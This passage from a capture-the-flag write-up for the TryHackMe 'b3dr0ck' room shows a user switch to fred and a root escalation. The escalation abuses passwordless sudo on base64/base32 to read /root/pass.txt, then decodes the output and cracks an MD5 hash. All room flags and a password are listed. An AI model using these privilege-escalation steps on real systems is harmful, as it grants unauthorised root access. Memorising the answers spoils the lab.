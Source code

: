   ```
  b3dr0ck> login
  Login is disabled. Please use SSH instead.
  ```

- You already know the drill, just read the flag and move to root escalation.

  ```
  barney@b3dr0ck:/usr/share/abc/certs$ cd /home/fred
  barney@b3dr0ck:/home/fred$ su fred
  Password: 
  fred@b3dr0ck:~$ cat fred.txt 
  THM{08da34e619da839b154521da7323559d}
  ```

---

## 👑 Root Privilege Escalation

- This one is pretty straightforward, it abuses Base64 and Base32 encoding.

  ```
  fred@b3dr0ck:~$ sudo -l
  Matching Defaults entries for fred on b3dr0ck:
      insults, env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User fred may run the following commands on b3dr0ck:
      (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
      (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
  ```
  
- You can find the exploit on GTFOBins. Use the exploit to read roots password, decode it and then crack the hash.

  ```
  fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode
  LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK
  
  $ echo 'LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK' | base32 -d
  YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkMDVhMzFkNTYK
                                                                                                                       
  $ echo 'YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkMDVhMzFkNTYK' | base64 -d               
  a00a12aad6b7c16bf07032bd05a31d56
  
  a00a12aad6b7c16bf07032bd05a31d56 -> MD5 -> flintstonesvitamins
  ```
  
- Switch to root, read the root flag and finish the job. Bye! 💋

---

## 🏁 Flags

- **Barney Flag**: `THM{f05780f08f0eb1de65023069d0e4c90c}`
- **Fred Password**: `YabbaDabbaD0000!`
- **Fred Flag**: `THM{08da34e619da839b154521da7323559d}`
- **Root Flag**: `THM{de4043c009214b56279982bf10a661b7}`

---
